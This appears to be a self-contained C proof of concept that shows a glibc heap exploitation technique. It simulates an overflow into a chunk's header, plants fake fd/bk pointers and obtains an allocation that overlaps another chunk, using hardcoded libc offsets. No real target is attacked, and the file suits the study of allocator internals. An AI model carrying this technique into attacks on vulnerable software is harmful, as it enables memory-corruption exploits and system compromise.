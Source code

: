#### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

size_t getheap()
{
    puts("getheap");
    size_t libc_addr=puts-0x6dfe0;
    size_t* mp_72=libc_addr+0x3af2c8;
    size_t heap=*mp_72;
    return heap;
}

int main()
{    
    int id;
    

    size_t heapbase=getheap();
    char* chunkarray[0x10];

    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x70);
    }
    char* chunk1=malloc(0x70);
    char* chunk2=malloc(0x80);
    char* chunk3=malloc(0x100);
    malloc(0x10);
   
    for(int i=0;i<7;i++)
    {
        free(chunkarray[i]);
    }

    free(chunk1);  // into fastbin
    *(size_t*)(chunk3-16)=0x90;  // chunk 2 overflow chunk3 prev_size
    *(char*)(chunk3-8)=0; //chunk2 overflow  chunk3 size 
    *(size_t*)chunk2=heapbase+0xa60; // fake chunk fd
    *(size_t*)(chunk2+8)=heapbase+0xa60;  //fake chunk bk
    
    scanf("%d",&id);
    
    char* chunk4=malloc(0x100);

    printf("chunk2 data begin %p \n",chunk2);

    printf("&chunk5[0x80] %p \n",&chunk4[0x80]);
}
```
